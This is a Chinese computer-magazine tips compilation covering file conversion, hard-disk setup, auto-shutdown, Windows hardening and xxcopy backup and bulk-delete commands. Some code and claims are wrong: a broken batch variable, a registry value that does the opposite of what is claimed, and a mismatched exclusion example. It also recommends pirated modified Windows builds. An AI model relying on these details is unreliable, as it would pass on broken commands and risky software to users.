### 第一步：添加转换文件

打开Xilisoft Video Converter后，单击Add按钮，然后在打开的窗口中添加文件，要注意的是，我们可以按Ctrl或Shift键多选文件，从而可以批量转换。要注意的是，Xilisoft Video Converter支持大部分的视频、音频格式，包括传统的和新出现的都已经支持。

### 第二步：设置输出格式

单击下方的Profile可以设置转换后的文件格式，如图4所示，可以看到Xilisoft Video Converter支持很多的格式输出，包括手机常支持的3gp、苹果电视、苹果iPhone、iPod、微软Zune、SONY PS3、PSP等格式，这些全是智能手机或移动设备支持的格式。

## 五、瘦身图片

图片往往也较大，而转为压缩率较高的jpg格式则是一个不错的方案。但如果图片一多，处理起来就很不方便了。现在数码相机的存储器很大，出门旅游一时尽兴，会拍下很多张照片。如果快速地将其批量瘦身就成了我们必学的一门功课。

先从ftp://dx.07cn.com/ff/XnviewFull-v1.942.rar处下载最新版本的XnView，将其中所有文件解压到c:\program files\xnview文件夹下，接下来编写一个批处理命令文件，里面写上如下语句:

```
@echo off
set converter="c:\program files\xnview\nconvert.exe"
set oriformat=bmp
set outformat=jpeg
for /r %%f in (*.%%oriformat%) do %converter% -out %outformat% -truecolors %%f
```

接下来，将此保存为batchcon.bat文件。以后只要将此文件拷贝到一文件夹下，双击此文件，即可将其下的所有bmp文件（包括子文件夹下）转换为jpg格式。如果你想将其他格式的图片进行转换，只要修改oriformat和outformat后的参数即可，如将oriformat后的bmp修改为tif，将outformat后的参数换为jpeg，则可以将一文件夹下所有bmp文件转换为jpg格式了。

# 管好海量数据 大硬盘使用有技巧

如今硬盘低廉的价格已经让大硬盘成为装机的标准配置，甚至320GB也一跃成为中端主力产品。随着操作系统及应用软件的增容，硬盘肚量也越来越大，原来的百G的硬盘已经趋于淘汰。这些大硬盘在使用时可有些讲究，如果不注意这些技巧，就难以发挥大硬盘的优势，甚至会遇到许多问题。

◆文/江北书生

## 一、选购技巧

- 1. 注意接口

毫无疑问，现在一定选择SATA接口，而且是SATAII的 (SATA 3.0规范正在制订中)。

- 2. 选购时要注意品牌

硬盘是一个精密产品，其技术之高，当今全球能设计、生产它的，也就是有限的几个公司。但各公司的产品型号、种类繁多，其性能指示、接口类型更让用户产生不小的迷惑。因此购买前一定要确认品牌，这样品质和售后服务都有所保证。相对来说，希捷、西部数据、三星是相当不错的品牌。

- 3. 速度和单碟容量

硬盘的转速对其性能的提高是息息相关的，更高的主轴速度可以缩短硬盘的寻道时间并提高数据传输率；从而能够进一步提升硬盘的性能。当今，7200转的硬盘毫无疑问地占据着霸主的地位。不过，两块容量相等的硬盘，往往是单碟容量越高的那块更快。所以，在确定品牌之后，应选择单碟容量大的。单碟容量的增长可以带来三个好处：第一是硬盘容量的提高。由于硬盘盘体内一般只能容纳4到5张碟片，所以硬盘总容量的增长只能通过增加单碟容量来实现；二是传输速度的增加，因为盘片的表面积是一定的，那么只有增加单位面积内数据的存储密度。这样一来，磁头在通过相同的距离时就能读取更多的数据，对于连续存储的数据来说，性能提升非常明显；三是成本下降。举例来讲，同样是640GB的硬盘，若单碟容量为160GB，那么需要4张盘片和8个磁头，要是单碟容量上升为320GB，那么需要2张盘片和4个磁头，能节约很多成本。出于成本和价格两方面的考虑，两张盘片是个比较理想的平衡点。

- 4. 注意硬盘缓存

缓存的大小在影响硬盘的性能上是一个比较重要的因素之一，为解决硬盘的存取速度和内存存取速度不同，为了提高硬盘的读写速度，硬盘会把上一次使用的数据存在缓存之内，如果系统再次使用这些数据，硬盘会直接从缓存内调用这些数据，提高存储读写的速度。现在主流的缓存有32MB和16MB两种，推荐大家购买更高缓存的，虽然贵一点，但是相当值的。

## 二、分区/格式化技巧

现在硬盘越来越大，同时也越来越便宜，将其购买回来后，第一步就是要将其分区。硬盘分区是数据的“宝地”，而如今高清电影动不动就是几个GB甚至是20多GB，电脑游戏也有好几个GB，这极大地考验着我们硬盘分区规划智慧。对于大容量硬盘我们必须合理加以规划，才能够用得更好。另外，很多用户并不会用FDisk来分区，不要着急，这些问题都可以解决。

- 1. 合理/安全/方便地分区

以主流的硬盘为例进行介绍，推荐分区方案如下：

| 硬盘大小 | 主分区 | 扩展分区 | 系统/设置备份区 | 数据区 | 软件/游戏区 |
|----------|--------|----------|----------------|--------|--------------|
| 320GB    | 30GB   | 290GB    | 50GB           | 120GB  | 120GB        |
| 500GB    | 30GB   | 470GB    | 50GB           | 200GB  | 220GB        |
| 640GB    | 30GB   | 590GB    | 50GB           | 200GB  | 340GB        |

- 2. 尽量用Windows光盘引导分区

如果给大硬盘分区，千万不要再用FDisk了，因为它早老掉牙了。一来FDisk本身就不支持大硬盘，二来对于黑底白字的FDisk很后怕，弄不好就要丢失数据。现在如果想分区，可以用Windows Vista光盘。只要用Windows Vista光盘引导机器，稍等片刻，就启动了Vista的安装程序。选择安装，然后可以看到相应的窗口，在其中可以选中新安装的大硬盘。然后单击“驱动器选项（高级）”，之后可以看到如图1所示的窗口，在其中我们可以对硬盘分区进行新建、删除和格式化等操作。选择“新建”后，我们来为硬盘划分第一个分区也就是C盘。单击新建按钮后会出现一个输入框，在这里输入你要划分给第一个分区的空间大小（如图2），输入大小后单击应用，第一个分区就划分出来了。完成后，退出安装程序即可。




## 三、管理篇

### 1. 让大硬盘飞速前进

要注意的是，目前市面上有不少SATA硬盘是II代的，但是在一些机器上并不一定能够用得起来。这时，我们可以通过跳线将其速度限制至150MB/s，往往可以解决问题。同时，如果你的SATA是II代产品，也不要为了“兼容”，将其速度限制至## 2. 另外安装Windows XP

Windows XP并不能直接安装在SATA硬盘上。一般情况下，得在安装时按下F6键，然后从软盘上安装最新的驱动。但现在软驱已经退出了历史舞台，所以在SATA硬盘上安装系统盘是一个麻烦的事情。这时，我们可以尝试使用集成版和克隆版。

现在有高手已经制作了集成有SATA驱动的集成版和XP克隆版，集成版选择番茄花园的，XP克隆版选择电脑公司特别版。番茄花园在启动时，会让我们选择安装自带有SATA驱动的Windows XP，它可以识别出多数的SATA硬盘，可以为我们省下不少时间。而电脑公司特别版的GHO就已经内置了SATA驱动，安装后即可使用。

## 3. 别让文件名拖了NTFS分区后腿

一般人将大分区还是格式化成了NTFS分区格式，但使用8.3文件命名方式会降低NTFS分区的性能，而现在我们使用16位的程序并不多，所以我们完全有理由禁止NTFS分区上的8.3文件命名方式，从而提升其性能：打开“注册表编辑器”，定位到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem，再双击NtfsDisable8dot3NameCreation项，将其设置为0，重新启动系统后生效。另外，如果没有这个项，请右击，新建一双字节值，将其命名为NtfsDisable8dot3NameCreation，再双击之，将其值设置为0。

## 4. 注意数据的增量备份

硬盘一大，上面数据多了，则备份成了一个问题。完全备份是不可能的，这时我们只有使用增量备份，才能够更好更快地解决问题，推荐大家使用xxcopy。

从http://www.xxcopy.com/download/xxcopy.zip处下载，下载后，把xxcopy.zip压缩包解压到一文件夹下，再双击install.bat文件即可安装，一般情况下，安装程序询问时，均可按下Y键，它会把xxcopy安装到系统文件夹下，以方便我们调用。

编写一个批处理命令，假设要将D盘上的数据增量备份到E盘，语句如下：

```
xxcopy d:\ e:\ /bi /h /e /yy /W0 /Q1 /Q2
```

双击它即可增量备份数据，其中的关键参数/bi起到了作用，它表示只备份更新过的（根据时间和大小判断）或者目标文件夹中原本不存在的文件。

> 小知识：全备份、增量备份和差异备份的区别
> 通常来说，备份方案分三种类型：
> 全备份：这种备份将服务器上所有选中的驱动器上的所有文件都进行备份，然后将所有文件的备份标识位清零；
> 增量备份：这种备份只将那些设置了存档位的文件进行备份，并在备份完这些文件之后将文件的存档位清零；
> 差异备份：这种备份将那些上次全备份之后改变了的所有文件进行备份，但是这种备份不会将文件存档位清零。

## 将“用户和密码”招聘到“控制面板”

◆文/啄木鸟

众所周知，在Windows 2000中，我们可以通过“控制面板”中的“用户和密码”选项，打开“用户和密码”窗口（如图）。在该窗口中我们可以很方便地管理各个用户和密码，特别是我们可以将“用户”选项卡下的“要使用本机，用户必须输入用户名和密码”前的勾去掉，从而实现Windows 2000的自动登录。但是在Windows XP/2003中，控制面板中的“用户和密码”选项却消失得无影无踪了。这就给我们管理用户和密码带来了很多的麻烦，特别是实现自动登录，往往只能通过修改注册表来实现。今天，我们就将“用户和密码”招聘到“控制面板”，让我们管理用户和密码更方便。

打开记事本，输入以下内容：



```
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\CLSID\{98641F47-8C25-4936-BEE4-C2CE1298969D}]
@="用户和密码"
"InfoTip"="管理您系统中的用户和密码"

[HKEY_CLASSES_ROOT\CLSID\{98641F47-8C25-4936-BEE4-C2CE1298969D}\DefaultIcon]
@="%SystemRoot%\System32\SHELL32.dll,111"

[HKEY_CLASSES_ROOT\CLSID\{98641F47-8C25-4936-BEE4-C2CE1298969D}\Shell]

[HKEY_CLASSES_ROOT\CLSID\{98641F47-8C25-4936-BEE4-C2CE1298969D}\Shell\Open]

[HKEY_CLASSES_ROOT\CLSID\{98641F47-8C25-4936-BEE4-C2CE1298969D}\Shell\Open\Command]
@="Control UserPasswords2"

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\ControlPanel\NameSpace\{98641F47-8C25-4936-BEE4-C2CE1298969D}]
@="Add UserPasswords2 to ControlPanel"
```

另存为Control.reg，双击导入即可。打开“控制面板”，你是不是看到“用户和密码”选项了？

节能减排、全面构建节约型社会是当今的主旋律，电脑每年都会消耗掉我们不少电，而很多时候它是处于空转状态。而自动关机是相当有用的技术，一来可以节省能量，二来可以节省钱，三来还能延长电脑的使用寿命。现在物价飞涨，细微之处入手，我们往往只要一个选项就可以解决问题。

## 节能减排 完成后自动关机吧

◆文/写手

### 一、下载完后自动关机

很多人都有开着机器下载电影的习惯，由于电影一般较大，而网络带宽速度又不是十分稳定（取决于ISP连接速度和服务器及peers的带宽速度和稳定性，较难计算），因此很难精确地计算出下载完成时间。如果能够让下载软件下载完成后自动关机就好了，这里以最为流行的下载工具迅雷为例介绍。

#### 1. 迅雷5

用好迅雷的自动下载、自动关机功能即可充分利用好夜间的带宽，可谓是一举多得。

##### （1）设置手动下载

选择“工具”→“配置”，再单击“任务默认属性”项，然后选择“开始”为“手动”前的钩（如图1）。



##### （2）添加下载资源

接着，在浏览器中直接拖放下载链接，或者右击链接，选择“使用迅雷下载”命令，并在打开窗口中不作任何设置，可将任务添加到列表中。

##### （3）设置下载完成后关机

全面构建节约型社会是当今的主旋律，如果能够让迅雷在下载后自动关机，一定可以为自己节省下一大笔的电费，又能延长电脑的使用寿命。而我们要做的只是选中“工具”→“完成后关机”项。

##### （4）实行自动下载

等添加完成后，在睡觉前，右击主窗口下载区空白处，选择“全部开始”，即可批量下载我们添加的任务了。下载完成后，机器会自动关闭，节省能源。

#### 2. 迅雷6

选中“工具”→“计划任务管理”→“完成后关机”即可。

#### 3. WEB迅雷

##### （1）添加更多下载

新版WEB迅雷也支持通过通配符建立的批量任务，方便用户下载有共同特征的文件。因此，接下来，只要单击“高级”→“新建批量任务”命令，在打开窗口中输入相应的通配符即可。如我们要下载文件的路径为http://www.xunlei.com/file001.rar到http://www.xunlei.com/file099.rar这100个rar压缩包。只要在弹出对话框中的地址栏中填入：http://www.xunlei.com/file(*).rar，选择：从1到99，通配符的长度为：3即可批量下载（如图2）。



##### （2）启用下载完成关机

在WEB迅雷主界面中单击“自动关机”复选框。

> **小提示**
> 相对来说，夜间的温度较低，而且网络的负荷也少，下载时效率高，热量也少。我们可以对任务进行设置，让迅雷在夜间自动下载。事实上，国内网络带宽还是不够大，如果赶在上网高峰期下载软件，比如：白天上班时间、晚上6点到11点，那么速度肯定会很慢。

### 二、刻录完关机

使用Nero-Burning ROM刻录数据时，我们只要在打开的刻录窗口中勾选中“完成后自动关闭计算机”复选框。在刻录完成后，会出现一个提示窗口，机器会在30秒钟后自动关闭。按下“取消”按钮即可阻止自动关机。

要特别注意的是，建议大家在激活此选项时关闭所有其他应用程序。这是因为，当系统自动关闭时，所有打开的应用程序都会关闭。有些应用程序可能会询问“是否应保存当前文件”这样的问题。在这种情况下，Windows会禁止Nero关闭系统。此技巧对于晚间需要备份大量数据到光盘上非常有用！

CfanBoundEdition · 2008

### 三、压缩完后自动关机

很多时候，我们可以在下班前使用WinRAR来备份我们的资料，并让它备份完资料后让电脑自动关机，建议大家使用最新的WinRAR（WinRAR从3.11起支持压缩完成后自动关机）：先在“资源管理器”中右击欲备份的文件，选择WinRAR→“添加到压缩文件”命令，打开“压缩文件名和参数”设置对话框，单击“高级”标签，再选中“完成操作后关闭计算机电源”复选框（如图3），最后按下“确定”按钮后即可离开机器，WinRAR在完成文件的压缩后会自动关闭计算机。



> 小提示：在向WinRAR下达任务后，可以先锁定计算机，否则你在操作的画面有可能会被同事们看到，他们甚至可以使用你的计算机。

### 四、播放完后自动关机

现在多数人不仅仅将电脑用来工作，更多地将其作为一个家庭娱乐终端。如果我们的电脑能够在播放完我们喜欢的歌曲和DVD大片或者电影后自动关机，就算睡着了，或者天冷也不用下床来关机，这将是一件非常惬意的事情。

#### 1. 使用千千静听

右击千千静听主窗口，选择“千千选项”，再单击“常规”标签，再选中“自动关闭计算机”选项，再设置相应时间，最后单击“全部保存”按钮保存设置即可。

#### 2. KMPlayer

在KMPlayer中右击播放器主窗口，再单击“选项”→“参数设置”或者按下F2键打开“参数设置”窗口，再单击“常规”下的“重复/播放列表”，将“当完成时（已播放了整张专辑）…”下的“视频”和“音乐”设置为“关机（一次）”和“关闭Windows（一次）”（如图4）。进行上述设置后，我们看完电影或听完歌后，KMPlayer就会自动把电脑关掉，这样会省事不少。



#### 3. 暴风影音

启动暴风影音，再选中“播放→播放后操作→关机”项，再打开DVD或电影，播放完成后将会关闭机器。

#### 4. PPLive

选择“工具”→“定时服务”→“定时关机”，之后输入PPLive账户和密码，即可设置定时关机。

#### 5. PPStream

选择“工具”→“定时”，在打开窗口中可以设置相应的时间，然后再选“关闭计算机”（如图5）。



### 五、录制完成后自动关机

#### 1. Messer录完自动关机

Messer是一款免费的软件，提供了很强的录音功能。安装并启动它后，单击标签，再单击Recording Monitor（录音监听）中的Options（选项）按钮。再单击Advanced stop（高级设置）。然后在打开的窗口单击stop when detecting x sec. of silence（当检测到多少分钟静音时停止录制），并设置为30秒。然后再选中下方的shutdown computer after recording（停止录音后自动关机）复选框。以后单击录制按钮即可录制声音，当没有声音输入（大约为30秒）则Messer会自动关闭机器。

> 小提示：如果你录制歌曲之间的时间间隔大于30秒，则请适当增大stop when detecting x sec. of silence中相应时间。

#### 2. 网络收音机录完自动关机

现在网络盛行，我们完全可以借助于龙卷风网络收音机来录制内容，而它也提供了录制完后自动关机功能。右击龙卷风的主界面，选择“参数设置”，再单击“常规”标签，然后选中“在指定时间自动关闭计算机”复选框，再在其后输入相应的时间即可（如图6）。



### 六、杀完木马后自动关机

硬盘大了，文件多了，用360扫描并查杀木马将会消耗很多时间。不过，在扫描时，有一个选项“扫描完成后关机”复选框，选中后即可生效。

## 防微杜渐 让系统更加安全的哲学

众所周知，系统安全对于用户的重要性是不言而喻的。提到“系统安全”这样的字眼，相信多数人会条件反射地想到各种防火墙工具、防病毒软件等。其实，系统安全光靠“防”是防不住的，还需要我们有足够的安全意识。一些细小的行为完全可以让系统更加安全！

◆文/江北书生

### 一、安装系统前要集成SP2/SP3关键包

SP2对于系统的重要性毋庸置疑，安装系统时一定使用至少集成有SP2的光盘。当然，如果大家愿意，也可以使用集成SP3的光盘来安装。因为SP3修正了1000多个补丁，其中包括很多的安全更新。其中有一部分来自Windows Vista和Windows Server 2008的改进，最新版本的SP3带来了许多隐含的更新。SP3还带来了“黑洞路由器”的检测，使Windows XP拥有了可探测、防范非法路由器送来的数据的能力。另外，一定要保持系统自动更新，这样就可以保证即时安装关键更新包。

右击“我的电脑”，选择“管理”，单击“服务和应用程序”下的“服务”项，双击其中的Background Intelligent Transfer Service，在“常规”选项卡上单击“启动类型”下拉列表框，选择“自动”（如图1）。接着，打开“控制面板”，双击“自动更新”，然后选择“下载更新，但是由我来决定什么时候安装。”，再单击“确定”按钮确认。这样操作后，可以启动Windows本身的自动更新功能。



### 二、安装时不要接网线

在安装完成Windows后，不要立即把服务器接入网络，因为这时的服务器还没有打上各种补丁，存在各种漏洞，非常容易受到攻击。

### 三、安装一定要设置管理员密码

可能有的人使用的是网上下载的万能Ghost版来安装的系统，也可能使用的是Windows XP无人值守光盘安装的系统，利用这些方法安装时极有可能没有让你指定Administrator密码，或者Administrator的密码是默认的或干脆为空，这是很危险的。所以大家安装的过程中（会有窗口提示我们输入管理员密码）或安装后一定要设置密码。

右击“我的电脑”，选择“管理”，再选择左侧的“计算机管理（本地）→系统工具→本地用户和组→用户”，选中右侧窗口中的Administrator，右击，选择“设置密码”，在打开窗口中单击“继续”按钮，即可在打开窗口中为Administrator设置密码。

### 四、安装杀毒软件和反黑软件并保持自动更新

世界上新病毒和木马无时无刻不在产生，有效查杀的办法就是安装杀毒软件和反黑软件，并让病毒库和木马引擎实时更新。

-   1. 让杀毒软件实时升级
    安装可靠有效的防杀病毒软件，如江民杀毒2008等。然后右击任务栏上的江民杀毒图标，选择“设置”命令，再在打开窗口中单击“升级”标签项，设置为“检测到更新后即升级”。

-   2. 让反黑软件自动升级
    同时要安装诸如奇虎360安全卫士之类的反黑软件最新版，而且也注意单击“常用”→“查杀流行木马”，之后它就会自动下载木马特征库（如图2，包括安天木马查杀引擎和完全木马库），之后就会进行扫描。



### 五、用上各种软件的安全特性

已在前面文字中有所介绍。

### 六、关闭掉多余的服务

多余的服务不仅不能服务，还会影响系统的安全，如远程注册表、远程终端等。我们可以右击“我的电脑”，选择“管理”，单击“服务和应用程序”下的“服务”项。对于确实不需要的服务，可以双击之，在“常规”选项卡上单击“启动类型”下拉列表框，选择“已禁用”，再单击下方的“停止”按钮（如图3）。



### 七、关闭远程桌面

右击“我的电脑”，选择“属性”，单击“远程”标签，在“远程桌面”下，将“允许用户远程连接到这台计算机”勾选去掉可以取消远程桌面，这样电脑会安全一些。

### 八、关掉Windows网卡共享

就算我们机器上不共享文件夹，但是系统默认会共享出所有硬盘供管理员登录后使用。这样极不安全，虽然网上说，可以通过一定的办法来关闭，但总有些麻烦。不过，我们只要把住网卡关，就可以一次、彻底地关闭掉。

-   1. Windows XP
    打开“本地连接”属性对话框，然后取消“Microsoft 网络的文件和打印机共享”项，这样别人就无法看到你电脑上的任何文件了，但你仍可以看其他电脑上的共享文件（夹）。
    如果你经常光顾人家的共享文件夹，往往也有可能会被其中的病毒感染，或者中木马。因此，将这一条路关掉也是正确的。打开“本地连接”属性对话框，然后取消“Microsoft 网络客户端”项，这样我们就无法打开别人的共享文件夹了。

-   2. Windows Vista
    在Windows Vista中打开“控制面板”，双击“网络和共享中心”，在打开窗口中单击左侧的“管理网络连接”，在打开窗口中右击“本地连接”，选择“属性”，再在打开窗口中取消“Microsoft 网络客户端”和“Microsoft 网络的文件和打印机共享”协议前的勾选即可。

> > 这里要注意的是，我们有一项是千万不能取消选择的，那就是“Internet 协议版本4(TCP/IPv4)”。因为现在上网全靠它！一般来说，“QoS 数据包计划程序”和“Internet 协议版本 6(TCP/IPv6)”可以取消掉。如果只是上互联网而不访问特殊的网络，也可以去掉“链路层拓扑发现映射器I/O 驱动程序”和“Link-Layer Topology Discovery Responder”。

### 七、杀完病毒后自动关机

硬盘大了，文件多了，杀毒过程是比较耗时的，通常情况下，我们都是利用下班后的闲暇时间来杀毒的，用好杀完病毒后自动关机十分有用。

#### 1. 瑞星

依次单击菜单栏的“设置”→“详细设置”，然后在弹出的“详细设置”窗口中单击左侧窗格中的“详细设置”→“手动查杀”项，并在右侧窗格中单击“杀毒结束后”下拉列表框，从中选择“关机”（如图7），最后单击“确定”按钮。好了，以后杀毒完毕，瑞星就会自动关机了。



#### 2. 卡巴斯基

在扫描时，单击相应区域，选择“关闭计算机”即可让卡巴斯基在扫描完机器后自动关机。

### 八、一段时间不操作就自动关机吧

如果我们下班前离开机器时忘记了关闭它或者你在用电脑看片时睡着了而忘记了关闭机器，那可以利用下面的技巧来为你解忧：右击桌面，选择“快捷方式”，在弹出“创建快捷方式”对话框的“命令行”中输入shutdown -s -t 00，再将它保存为“关闭电脑”。接着，选择“开始”→“控制”→“控制面板”，双击“任务计划”打开“任务计划”窗口。然后把桌面的“关闭电脑”快捷方式拖放到“任务计划”窗口中。再双击“任务计划”窗口中的“关闭电脑”，单击“日程安排”标签，单击“任务计划”下拉列表框，从中选择“空闲时”，在“当计算机空闲时间超过xx分钟”处将时间改为30分钟。再单击“设置”选项卡，取消所有选项的勾选。完成以上设置后，按“确定”按钮，再在打开的窗口中输入系统管理员密码，退出设置窗口。这样，当我们离开机器，30分钟没有任何的操作，机器会自动关闭。

进行上述操作后，我们就不必担心电脑会“空转”，乱用电了。

## 高效个性 xxcopy给你文件处理全面方案

硬盘越来越大，越来越便宜，带宽越来越高，很多人的机器里堆满了很多文件。显然，光靠人工来处理已经不够。DOS下的xcopy命令大家是最熟悉不过的，但是功能相对来说比较弱。现在有免费的xxcopy，提供了强大的功能，可以全面提升效率，实现高效个性化的文件处理。

◆文/江北书生

### 一、xxcopy安装与方便调用

xxcopy可以从http://www.xxcopy.com/download/xxcopy.zip处下载，下载后，把xxcopy.zip压缩包解压到一文件夹下，再双击install.bat文件即可安装，一般情况下，安装程序询问时，均可按下Y键，它会把xxcopy安装到系统文件夹下，以方便我们调用。

> 小提示
xxcopy调用的是标准Win32文件输入/输出函数，完全支持长文件名文件。同时，xxcopy在NTFS分区间拷贝文件时，还能带上相应文件权限。

不过，为了方便xxcopy的使用，我们可以打开“注册表编辑器”，定位到[HKEY_CLASSES_ROOT\Directory\shell]，在其下新建GimmeDOS项，选中它，双击右侧窗格中“默认”，输入“CMD这里”（如图1）。然后再在左侧窗格中选中GimmeDOS项，右击，选择“新建”→“项”，将新项命名为command。选中command项，双击右侧窗格中“默认”，在其中输入c:\windows\system32\cmd.exe /k cd "%1"（如果你的Windows不安装在C:\windows，则要修改相应路径）。关闭“注册表编辑器”，在任意文件夹图标上右击鼠标，并在菜单中选择“CMD这里”（如图2）即可直接打开命令行提示符，然后操作xxcopy，完成后，输入exit退出。





> 小提示
可以将[HKEY_CLASSES_ROOT\Directory\shell\GimmeDOS\command]导出为cmdhere.reg，这样在别的机器上直接双击它就可以导入上面的设置，非常方便。

### 二、给文件全面处理方案——拷贝/备份

#### 1.一个文件都不会少 完全克隆你的小硬盘

现在硬盘很便宜，怎样做好上面数据的备份工作则显得非常重要。如果你新买一块硬盘，那可以用xxcopy来克隆它。由于现在多数是SATA硬盘，因此不存在主从设置问题（如果仍使用IDE硬盘，则需要将新硬盘设置为Slave模式）。假设新硬盘是E盘，我们要复制的数据在D盘（旧硬盘）上，则可以用下面的方法来克隆硬盘内容：

```
按下Win+R键，输入cmd，打开“DOS提示符”，再输入
XXCOPY  d:\  e:\  /CLONE，即可把D盘克隆到E盘上。
```

#### 2.备份你的文件（夹）

如我们要备份E:\Work下的所有文件到F:\Work，则可以使用如下命令：

```
xxcopy  "E:\Work"  "F:\Work"  /s /k /bi /y
即可。
```

之后，xxcopy将会自动对E:\Work和F:\Work下所有文件进行比较，并会自动把F:\Work下不存在的文件（夹）拷贝到其下，同时会用E:\Work中的新文件来代替F:\Work下的相应文件。
各参数表示如下：

- /s  表示连同子文件夹处理
- /k  源文件仍保留其原有属性
- /bi  只备份更新过的（根据时间和长度判断）或者目标文件夹中原本不存在的文件
- /y  覆盖文件时自动回答“是”

#### 3.只备份/处理相应文件

如果我们只想备份/处理扩展名为DOC的文件，则可以输入命令：

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /y /in*.doc,
```

则xxcopy只会处理E:\Work下的DOC文件。

如果我们想备份/处理扩展名为TXT和BMP的文件，可以输入如下命令：

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /y /in*.txt /in*.bmp,
```

多种类型文件分别用/in参数隔开，同时请保证/in参数放在命令的最后。

> ★如果我们不想备份/处理*.tmp文件，则可以输入xxcopy "E:\Work" "F:\Work" /s /k /h /bi /x*.exe即可。
同样，多种类型文件分别用/x参数隔开，如我们不想备份/处理*.tmp和*.bak文件，则可以输入如下命令：xxcopy "E:\Work" "F:\Work" /s /k /h /bi /x*.tmp /x*.bak
★如果我们使用Windows XP/Vista，那切换到相应文件夹下，输入del +指定文件类型+/s参数即可快速到指定文件，如输入del *.tmp *.bak /s /f即可把当前文件夹包括子文件夹下所有*.tmp和*.bak文件删除掉。

#### 4.让xxcopy也复制隐藏文件

```
xxcopy e:\work f:\work /da /h /e /yy
```

即可保证将e:\work下的所有文件拷贝到f:\work下，包括隐藏的文件。在其中起关键参数的是/h，它表示连同系统、隐藏文件一起拷贝。

#### 5.只备份/处理指定日期的文件

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /da:2008-02-02,
```

只处理2008年2月2日后的文件。

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /db:2008-05-09,
```

只处理2008年5月9日以前文件。

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /da:2008-02-02 /db:2008-05-09,
```

只处理2008年2月2日和2008年5月9日之间的文件。

#### 6.让xxcopy不占用太多资源

有很多人发现拷贝文件时，系统资源占用很多，不过xxcopy有一个参数，可以减少系统占用。建立一个批处理，如copydata.cmd，内容如下：

```
xxcopy d:\backup e:\backup /bi /h /e /yy /W0 /Q1 /Q2 /ni50
```

则会比直接使用xxcopy d:\backup e:\backup /bi /h /e /yy /W0 /Q1 /Q2少占资源，因为有了/ni参数，xxcopy会在每次文件操作时，插入一个休眠值，本例中是50，即50毫秒。这个数值越大，则越强，自然对于系统资源占用也越少。

#### 7.只备份指定大小的文件

```
xxcopy D:\*.* E:\big150 /s /h /yy /sz:150MB-
```

执行以上命令后将会将D盘上所有大于150MB的文件拷贝到E:\big150文件夹下。

#### 8.定时备份文件

如我们想定时备份D:\DATA和E:\Work下的所有文件到F:\BAK下相应文件夹，则可以写一个autobak.bat文件，在其中输入如下命令：

```
xxcopy D:\DATA F:\BAK\DATA /s /k /h /bi /yy
xxcopy E:\Work F:\BAK\Work /s /k /h /bi /yy
```

之后，只要选择“开始”→“设置”→“控制面板”，双击“任务计划”图标。把autobak.bat文件拖放到“任务计划”窗口。然后双击它，单击“日程安排”标签，单击“任务计划”下拉列表框，从中选择“每天”，而“开始时间”设置为相应的时间，如12:30（如图3）。这样，到了相应时间，电脑就会自动备份相应数据。



#### 9.让TC自由调用xxcopy 实现增量备份

经常做好数据备份是一个非常好的习惯，但每次用xxcopy来处理文件时，都要在提示符下输入相应的命令，有的文件夹是中文的，输入显然不便。不过，我们可以让Total Commander来借助xxcopy增量备份文件，而我们要做的只是单击相应的按钮。

第一步：添加按钮

打开Total Commander，右击其工具栏空白处（不要右击某一按钮），选择“改变”命令（也可以选择“配置”→“自定义工具栏”命令）打开如图4所示的窗口，单击“添加”按

> SZ还有更多参数，它可以更好地控制大文件：

| 参数 | 功能 |
| :--- | :--- |
| /SZ:<n>-<m> | 处理处于n字节和m字节之间的大文件； |
| /SZ:<n>- | 处理等于或大于n字节的大文件； |
| /SZ:-<m> | 处理等于或小于m字节的大文件； |
| /SZ:<n> | 处理正好等于n字节的大文件； |



### 三、给文件全面处理方案——移动/删除文件

#### 1.移动相应文件

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /rc /yy
```

表示把文件移动到目标文件夹中，其中/rc参数表示当成功拷贝后，删除掉源文件。

#### 2.只移动指定大小大文件

一般来讲系统使用一段时间后，磁盘的可用空间都会莫名其妙减少。到底是哪些大文件被存放在硬盘上？我们可以编写一个批处理，如move300.bat，内容如下

```
xxcopy D:\*.* E:\big300 /rc /h /yy /sz:300MB-
```

执行以上命令后将会将D盘上所有大于300MB的文件移到E:\big300文件夹下，完成后进入E:\big300文件夹，如果发现没有太大作用，可以将它们删除掉。其中/rc表示在成功拷贝后删除掉源文件。

#### 3.直接删除掉指定大小文件

```
xxcopy d:\*.* /s /h /yy /sz:150MB- /rs
```

则可以将D盘上所有大于150MB的文件直接删除掉。

> 小提示
输入xxcopy c:\garb\*.* /s /h /yy /sz:-50MB /rs 会删除掉等于或小于50MB字节的文件。
输入xxcopy c:\garb\*.* /s /h /yy /sz:100MB- /rs 会删除掉等于或大于100MB字节的文件。
输入xxcopy c:\garb\*.* /s /h /yy /sz:50MB-80MB /rs 会删除掉介于50MB和80MB字节的文件。

#### 4.只留下指定时间的指定文件

```
xxcopy d:\mydir /rmdir /da:2008-10-01 /y /x*.doc
```

删除掉d:\mydir中在2008年10月1日之后的文件夹，但不删除DOC文件。

#### 5.删除目标文件夹中不必要文件

```
xxcopy "E:\Work" "F:\Work" /s /k /h /bi /z /y
```

其中/z命令表示删除掉源文件夹中没有的，但在目标文件夹中有的文件，这样可以保证两个文件夹中的文件完全一致。如果换为/zy表示直接同意删除，但如果使用了/y，此项无效。

#### 6.清理硬盘上无用文件

有很多的垃圾文件存放在硬盘的各个角落，很难清理，现在我们只要写一个批处理文件：

```
xxcopy c:\*.tmp /s /h /yy /rs
xxcopy c:\*.bak /s /h /yy /rs
```

双击这个批处理文件，就可以将C盘上所有的tmp和bak文件全部删除掉！以此类推。

#### 7.清空文件夹

输入如下命令：xxcopy c:\garb /rmdir 可以删除掉c:\garb及其下所有文件（夹）。

#### 8.删除指定时间文件（夹）

输入xxcopy c:\garb /rmdir /da:2003-04-01 /y 会删除掉c:\garb中在2003年4月1日之后的文件夹。

```
xxcopy c:\garb /s /h /yy /rs /da:2003-03-03,
```

只删除掉2003年3月3日之后的文件。

```
输入xxcopy c:\garb /s /h /yy /rs /db:2003-05-01,
```

只删除掉2003年5月1日之前文件。

```
